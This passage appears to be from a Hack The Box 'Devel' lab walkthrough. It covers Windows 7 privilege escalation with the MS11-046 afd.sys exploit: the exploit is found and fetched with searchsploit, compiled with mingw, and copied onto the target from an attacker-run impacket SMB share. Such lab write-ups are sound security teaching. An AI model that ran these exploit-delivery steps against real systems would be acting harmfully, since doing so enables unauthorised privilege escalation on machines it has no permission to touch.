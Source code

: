 ```
```

Searching on Google for Win7 build 7600 exploits, we can easily find this one:

![Devel_PrivEsc](/images/htb/devel_priv_esc.png)

It is also possible to find the exploit on `searchsploit`:

```
searchsploit windows| grep 40564
Microsoft Windows (x86) - 'afd.sys' Local Pri | windows_x86/local/40564.c
```

Where:
- `40564` is the **EDB-ID** of the exploit

Download it:

```
searchsploit -m windows_x86/local/40564.c
  Exploit: Microsoft Windows (x86) - 'afd.sys' Local Privilege Escalation (MS11-046)
      URL: https://www.exploit-db.com/exploits/40564
     Path: /usr/share/exploitdb/exploits/windows_x86/local/40564.c
File Type: C source, ASCII text, with CRLF line terminators
```

The instructions for compiling the exploit are in the file:

>Exploit compiling (Kali GNU/Linux Rolling 64-bit):

>i686-w64-mingw32-gcc MS11-046.c -o MS11-046.exe -lws2_32

In case mingw-w64 is not installed on the machine, we have to do it:

```
sudo apt install mingw-w64
```

After running the command (writing `40564.c` instead of `MS11-046.c`), the exploit is compiled and ready to be uploaded on the target machine:

```
sudo python3 /opt/impacket/examples/smbserver.py share .
```

Where:
- `share` is the name I want to give to the share
- `.` is the share path

**Note**: We am setting up a smb server in order to deliver the payload, as `wget` and `curl` are not installed on the target machine. Another way could be to use a `Powershell download cradle`.

On the target we place ourselves under `C:\Users\Public`, as here we have **write permissions** and can copy the file:

```
C:\Users\Public>copy \\10.10.14.9\share\MS11-046.exe
copy \\10.10.14.9\share\MS11-046.exe
```
